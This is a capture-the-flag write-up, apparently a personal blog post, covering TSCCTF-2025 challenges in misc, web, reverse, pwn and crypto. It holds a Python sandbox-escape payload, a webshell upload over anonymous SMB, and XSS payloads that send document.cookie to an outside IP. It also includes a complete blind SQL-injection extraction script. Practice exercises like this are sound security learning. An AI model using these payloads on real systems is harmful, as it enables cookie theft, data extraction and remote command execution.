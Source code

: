 ```yaml
---
layout: post
title: "[CTF] TSCCTF-2025 Writeup"
date: 2025-01-18 +0800
categories: CTF
hidden: false
---
```


## MISC
### Subdomain Hijacking
透過Generate Your Subdomain
![](/images/2025/01/HyRfL3fPyx.png)
輸入`test`生成
![](/images/2025/01/S1BfU2MDye.png)

輸入`Target`，獲得flag，不是很懂
![](/images/2025/01/Bk4nShGDJx.png)

![](/images/2025/01/BJocSnzwye.png)

### A_BIG_BUG
使用匿名登入SMB上傳webshell，可以從網頁路徑 /uploads 執行

`└─$ smbclient //172.31.0.2/uploads -p 30043 -U ''`

![](/images/2025/01/HknSr3Mw1l.png)

尋找Flag

`find / -name "*flag*" 2>/dev/null`
![](/images/2025/01/Bk0JH2Gw1e.png)

`cat /tmp/flag.txt`
![](/images/2025/01/r1mJr2GvJl.png)

### calc

```python
import re
def denormalize(str):
    ret = ""
    for c in str:
        if c >= "a" and c <= "z":
            # https://www.compart.com/en/unicode/U+FF41
            # weird fullwidth a
            # the first of a sequence of codepoints compatible with ASCII letters
            weird_a = 0xff41
            offset = ord(c) - ord("a")
            ret += chr(weird_a + offset)
        else:
            ret += c

    # replace all underscores that are not at the beginning of an identifier with
    # https://www.compart.com/en/unicode/U+FF3F
    # fullwidth underscore
    ret = re.sub(r"(?<![\.\[\( ])_", chr(0xff3f), ret)

    return ret

def enc(s):
    # 99 = None
    letter_to_index = {
        'a': 76,
        'b': 99,
        'c': 8,
        'd': 99,
        'e': 7,
        'f': 37,
        'g': 99,
        'h': 99,
        'i': 99,
        'j': 99,
        'k': 99,
        'l': 208,
        'm': 103,
        'n': 99,
        'o': 99,
        'p': 99,
        'q': 99,
        'r': 99,
        's': 0,
        't': 1,
        'u': 99,
        'v': 99,
        'w': 99,
        'x': 99,
        'y': 27,
        'z': 99,
        'space': 14
    }

    # 查找對應字母的索引
    index = letter_to_index.get(s.lower())
    result = "''.__doc__.__getitem__("+str(index)+")"
    return result


system=enc('s')+"+"+enc('y')+"+"+enc('s')+"+"+enc('t')+"+"+enc('e')+"+"+enc('m')
cmd= enc('l')+"+"+enc('s')
cmd2=enc('c')+"+"+enc('a')+"+"+enc('t')+"+"+"' *'"
a="''.__class__.__base__.__subclasses__().pop(155).__init__.__globals__.pop("+system+")("+cmd+")"
print(denormalize(a))

b="''.__class__.__base__.__subclasses__().pop(155).__init__.__globals__.pop("+system+")("+cmd2+")"
print(denormalize(b))
```

![](/images/2025/01/HJ_eNkmD1l.png)


![](/images/2025/01/r11eEk7w1g.png)

### BabyJail

用calc一樣的payload就好了
![](/images/2025/01/SJLMVfXw1g.png)

## Welcome

### Please Join Our Discord!!!

![](/images/2025/01/HJosLTmwkg.png)


## Web

### Ave Mujica
網頁有LFI的漏洞

![](/images/2025/01/Bk1ztJmvke.png)


### Be_IDol
網頁有Backdoor function
![](/images/2025/01/HJjg0Jmw1g.png)

去暴力破解尋找全部檔案
![](/images/2025/01/r1UC6yXvyl.png)

發現有可以使用shell的介面
![](/images/2025/01/rJbWIxmPkl.png)

### book

![](/images/2025/01/HJ-G5-Qvyl.png)

會先把title sanitize再innerHTML，這時就可以把DOM clobbering payload放到title，繞過`typeof config !== "undefined" && config.DEBUG`。

```js
<script>
document.addEventListener("DOMContentLoaded", () => {
    const urlParams = new URLSearchParams(window.location.search);
    const title = atob(urlParams.get("title"));
    const content = atob(urlParams.get("content"));
    document.getElementById("title").innerHTML =
        DOMPurify.sanitize(title);
    if (typeof config !== "undefined" && config.DEBUG) {
        document.getElementById("content").innerHTML = content;
    } else {
        document.getElementById("content").innerHTML =
            DOMPurify.sanitize(content);
    }
});
</script>
```

Ref:https://ithelp.ithome.com.tw/articles/10318413?sc=rss.iron


PAYLOAD title

```html
<form id="config">
    <button id="DEBUG"></button>
</form>
```

PAYLOAD content
P.S HTML5 中指定不由 innerHTML 插入的 ``<script>`標籤 [mozilla-innerHTML](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML)

```html=
<img src=x onerror="location='http://172.30.0.163/?'+document.cookie">
```

![](/images/2025/01/Sk-Bn-Xv1e.png)



### E4sy SQLi

這個端點`/customize/<product_id>`，有Boolean SQLI
![](/images/2025/01/HkK2MzXvJg.png)

Table `discount_codes` 裡面有 FLAG

```python
import requests


base_url = "http://3a9f7e1b7b454c7081cf467d108a40720.e4sy-sqli.tscctf.com:8999/customize/3"
cookie = {"session": ".eJwljMsKgzAQRX-lzFrKxBpjXPU_Ggl5TFqpD3DMSvz3Rro653K59wCbJscfYuhfB9z2AuAcAjFDBSarVnmTpWilyW0tsHitk8kpoYDhHCoIvCW7r19aoIckUmicDF4p1DF4bKT38lGjJ905wiZ2qKUS5XtbJyqLzLSVdMGOEXrx98XNV-s4Pt-zG6d7WGc4f59BNmM.Z4gVfg.Cpvr55StL2Y-apSZ4KcBRU5Y7ic"}


def is_condition_true(payload):
    url = f"{base_url}{payload}"
    response = requests.get(url, cookies=cookie, allow_redirects=False)
    return response.status_code == 200


def get_database_name():
    database_name = ""
    print("[+] Database:", end=" ")
    for position in range(1, 50):
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_":
            payload = f" AND SUBSTR((SELECT DATABASE()), {position}, 1) = '{char}' -- "
            if is_condition_true(payload):
                database_name += char
                print(char, end="", flush=True)
                break
        else:
            break
    print()
    return database_name



def get_tables(database_name):
    tables = []
    print("[+] Table:")
    for table_index in range(0, 50):
        table_name = ""
        print(f"[+] Table {table_index}: ", end="", flush=True)
        for position in range(1, 50):
            for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_":
                payload = (
                    f" AND SUBSTR((SELECT table_name FROM information_schema.tables "
                    f"WHERE table_schema='{database_name}' LIMIT {table_index}, 1), {position}, 1) = '{char}' -- "
                )
                if is_condition_true(payload):
                    table_name += char
                    print(char, end="", flush=True)
                    break
            else:
                break
        if table_name:
            tables.append(table_name)
            print()
        else:
            break
    return tables


def get_columns(table_name):
    columns = []
    print(f"[+] Table {table_name} of Columns:")
    for column_index in range(0, 50):
        column_name = ""
        print(f"[+] Column {column_index}: ", end="", flush=True)
        for position in range(1, 50):
            for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_":
                payload = (
                    f" AND SUBSTR((SELECT column_name FROM information_schema.columns "
                    f"WHERE table_name='{table_name}' LIMIT {column_index}, 1), {position}, 1) = '{char}' --"
                )
                if is_condition_true(payload):
                    column_name += char
                    print(char, end="", flush=True)
                    break
            else:
                break
        if column_name:
            columns.append(column_name)
            print()
        else:
            break
    return columns




def get_column_data(table_name, column_name):
    data = []
    print(f"[+] Table {table_name} of Columns {column_name} of Data:")
    for row_index in range(0, 50):
        row_data = ""
        print(f"[+] Data {row_index}: ", end="", flush=True)
        for position in range(1, 500):
            for char in range(33, 127):
                payload = (
                    f" AND SUBSTR((SELECT {column_name} FROM {table_name} "
                    f"LIMIT {row_index}, 1), {position}, 1) = BINARY(CHAR({char})) --"
                )
                if is_condition_true(payload):
                    row_data += chr(char)
                    print(chr(char), end="", flush=True)
                    break
            else:
                break
        if row_data:
            data.append(row_data)
            print()
        else:
            break
    return data

# Database Name
# database_name = get_database_name()
# print(f"[+] Database is: {database_name}")

# Table Name
# tables = get_tables('laptop_shop')
# print(f"[+] Database {database_name} Table: {tables}")

# Column Name
# columns = get_columns("discount_codes")
# print(f"[+] Table discount_codes of Columns: {columns}")

# Data
code_data = get_column_data("discount_codes", "code")
print(f"[+] Table discount_codes of Column code of Data: {code_data}")
```



### Beautiful World
`main.py`主要檢查code如下

```python
# Check if the content is harmful content or not with BeautifulSoup.
soup = BeautifulSoup(content, "html.parser")
if sum(ele.name != 's' for ele in soup.find_all()):
    return "no eval tag."
if sum(ele.attrs != {} for ele in soup.find_all()):
    return "no eval attrs."
```


用不完整的html就可以bypass

```html
<img src="' onerror="/onerror="location='http://172.30.0.163/?'+document.cookie"
```

![](/images/2025/01/S16lazmDJx.png)

![](/images/2025/01/SkGnnf7wJl.png)


## Reverse

### What_Happened
![](/images/2025/01/SyklBSmvye.png)

![](/images/2025/01/rJq0NBQD1g.png)


```python
encrypted_flag = [
    0xFE, 0xF9, 0xE9, 0xD1, 0xE3, 0xF5, 0xFE, 0xC2, 0xC3, 0xC4, 0xC1,
    0xF5, 0xD3, 0xC5, 0xDF, 0xF5, 0xEC, 0xC3, 0xD2, 0xF5, 0x98, 0xC5,
    0xC7, 0xCF, 0xF5, 0x99, 0xD8, 0xD8, 0xC5, 0xD8, 0xD7
]

key = 0xAA

decrypted_flag = ''.join(chr(byte ^ key) for byte in encrypted_flag)

print(decrypted_flag) #TSC{I_Think_you_Fix_2ome_3rror}
```

### Meoware

JNZ patch成 JZ
![](/images/2025/01/Skg0AxEPJe.png)

![](/images/2025/01/BJgk1-4DJe.png)




## Pwn

### gamble_bad_bad
![](/images/2025/01/ryB0BHXvJg.png)



## Crypto

### Very Simple Login
![](/images/2025/01/BkkuIS7vyx.png)


### Classic

Script From AI

```python
import string
from itertools import product

def extended_gcd(a, b):
    """計算 a 的模反元素"""
    if a == 0:
        return b, 0, 1
    gcd, x1, y1 = extended_gcd(b % a, a)
    x = y1 - (b // a) * x1
    y = x1
    return gcd, x, y

def mod_inverse(a, m):
    """計算 a 在模 m 下的乘法反元素"""
    gcd, x, _ = extended_gcd(a, m)
    if gcd != 1:
        raise ValueError("模反元素不存在")
    return x % m

def decrypt(enc, A, B, charset):
    """使用給定的 A 和 B 解密文字"""
    m = len(charset)
    A_inv = mod_inverse(A, m)

    dec = ""
    for c in enc:
        y = charset.find(c)
        if y == -1:  # 如果字符不在字集中
            dec += c
            continue
        x = (A_inv * (y - B)) % m
        dec += charset[x]
    return dec

def is_valid_flag(text):
    """檢查解密結果是否可能是有效的 flag"""
    # 檢查是否包含合理的字符
    valid_chars = set(string.printable)
    return all(c in valid_chars for c in text) and "TSC{" in text

def crack_affine_optimized(enc, max_a=1000, max_b=1000):
    """優化版的破解函數"""
    charset = string.digits + string.ascii_letters + string.punctuation
    m = len(charset)

    for A in range(1, max_a):
        if A >= m:
            continue
        try:
            mod_inverse(A, m)
        except ValueError:
            continue

        for B in range(max_b):
            if B >= m:
                continue

            try:
                decrypted = decrypt(enc, A, B, charset)
                if is_valid_flag(decrypted):
                    return decrypted, A, B
            except:
                continue

    return None, None, None

# 主要解密過程
enc = "o`15~UN;;U~;F~U0OkW;FNW;F]WNlUGV\""
print("開始破解...")

decrypted, A, B = crack_affine_optimized(enc)

if decrypted:
    print(f"成功破解！")
    print(f"解密後的文字: {decrypted}")
    print(f"使用的參數: A = {A}, B = {B}")

```

## Result

17/509
![](/images/2025/01/Z8cgi3BHHB.png)
